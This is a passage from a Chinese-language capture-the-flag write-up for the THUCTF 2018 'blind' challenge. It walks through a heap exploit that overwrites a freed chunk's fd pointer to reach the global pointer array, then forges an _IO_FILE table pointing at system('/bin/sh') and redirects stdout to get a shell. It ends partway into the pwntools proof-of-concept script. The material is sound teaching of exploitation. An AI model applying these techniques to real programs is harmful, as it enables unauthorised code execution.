 ![1538555602478](https://saferman.github.io/assets/img/thuctf2018/blind_new_1.png)

可以看到 ptr[1] 指向了原本被 free 的 chunk ，和 ptr[0] 是一样的，此时 该 chunk 内容如下：

![1538556079215](https://saferman.github.io/assets/img/thuctf2018/blind_new_1_chunk.png)

注意此时 fd 被 修改了，这可可能是程序做了什么处理吧？有待研究 ......

但是不影响按照我们之前的逻辑继续操作

##### （6）执行了 new(p, 5, payload)

此时 ptr[5] 的内容如下：

![1538556223197](https://saferman.github.io/assets/img/thuctf2018/blind_new_ptr_5.png)

可以看到成功指向了我们设定的 fd(0x60203d) + 0x10 的位置，因为除开 总共 16 字节的 pre_size 和 size，指向数据区。

我们的 payload 开头刚好有 0x13 个 'a'， 0x60203d + 0x13 = 0x602040，从 IDA 可以看到：

![1538556372126](https://saferman.github.io/assets/img/thuctf2018/blind_ptr_ida.png)

刚好到 ptr 的起始位置，所以 Payload 后面刚好依次 将 ptr[0-5] 覆盖成：

```
ptr[0] -> p64(ptr_base)
ptr[1] -> p64(field)
ptr[2] -> p64(field+0x70)
ptr[3] -> p64(field+0xc0)
ptr[4] -> p64(field+0x100)
ptr[5] -> p64(stdout)

注意 payload 最后被 payload = payload.ljust(0x60, '\x00') 命令右补齐了
```

##### （7）最后进行修改

```
change(p, 1, '')  
change(p, 2, flat(s))
change(p, 3, flat(s))
change(p, 4, p64(0)*7 + p64(system_bin_sh))  # 修改 _IO_FILE 函数表得值改成恶意函数位置
change(p, 5, p64(field)) # 修改 stdout 指针 为 我们的 _IO_FILE
```

你可以研究一下 _IO_FILE 结构体具体长什么样，我这里就不细说了。

最后 GetShell！完整 POC 如下：

```python
from pwn import *
context.arch = 'amd64'
def new(p, idx, con):
    p.recvuntil('Choice:')
    p.sendline('1')
    p.recvuntil('Index:')
    p.sendline(str(idx))
    p.recvuntil('Content:')
    p.sendline(con)

def change(p, idx, con):
    p.recvuntil('Choice:')
    p.sendline('2')
    p.recvuntil('Index:')
    p.sendline(str(idx))
    p.recvuntil('Content:')
    p.sendline(con)

def release(p, idx):
```